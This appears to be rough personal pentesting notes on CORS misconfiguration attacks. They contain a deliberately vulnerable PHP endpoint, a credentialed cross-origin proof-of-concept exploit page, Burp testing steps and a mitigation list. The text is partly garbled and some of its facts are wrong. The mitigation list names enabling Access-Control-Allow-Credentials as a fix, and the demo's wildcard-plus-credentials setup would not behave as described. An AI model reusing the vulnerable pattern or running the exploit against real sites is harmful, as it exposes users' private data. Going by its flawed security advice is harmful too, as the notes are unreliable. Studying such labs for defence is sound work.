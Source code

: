 # CORS Attack

ow HTTP Headers

Access-Control-Allow: \* or \<origin> or null

Access-Control-Credentials:

if Access Access-Control-Credentials: true

**is Vulnerable CORS**

```php
<?php
session_start();

if($_SESSION['islogin'] != 1){
	header("Location: login.php");
	die();
}
#vulnerablity here
$origin = "mydomain.com";
if ( strpos(@$_SERVER['HTTP_ORIGIN'], "mydomain.com") ){
	$origin = @$_SERVER['HTTP_ORIGIN'];
}

header("Content-Type: application/json");
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");

echo '{"name":"Guest user", "phone number":"0234235","email":"email@gmail.com","adddress":"street 3","own books":["Book one","Book two","Book three"],"private books":["book 4","book 5"]}';
```

POS (if data json use Content-Type = application/json)

```jsx
<!DOCTYPE html>
<html>
<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
            url = "<url>";
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    // Display the response in an alert
                    alert(this.responseText);
                    // Or display the response in the demo div
                    document.getElementById("demo").innerHTML = this.responseText;
                }
            };
            xhttp.open("GET", url, true);
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>
<body>
    <center>
        <h2>CORS PoC Exploit</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
    </center>
</body>
</html>

```

I will try to find this vuln Uing Burpsuit Come with me!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in this request allow credentials if

#### Testing For CORS Vulnerabilities

1. remove/add a domain or like attckerlocalhost

* Map the application • Test the application for dynamic generation • Does it reflect the user-supplied ACAO header? • Does it only validate on the start/end of a specific string? • Does it allow the null origin? \* or yourdoamin,com • Does it restrict the protocol? HTTP or https | 80,8080 or any think • Does it allow credentials?

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click exploit B000000000M!

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mitigation

**1. restrict Allowed Origins**

**Access-control-Allow-Origin:** [**https://example.com**](https://example.com)

**2. Limit HTTP Methods**

**Access-control-Allow-Methods: GET, POST**

**3. Control Allowed Header**

**Access-Control-Allow-Headers: Content-Type, Authorization**

1. **Access-Control-Allow-Credentials: true**
2. **Validate Input and Origin**
3. **Content security Policy (CSP)**

**Content-Security-Policy: default-src 'self'; script-src 'self'** [**https://example.com**](https://example.com)

[http://localhost/labs/cors/info.php](http://localhost/labs/cors/info.php)
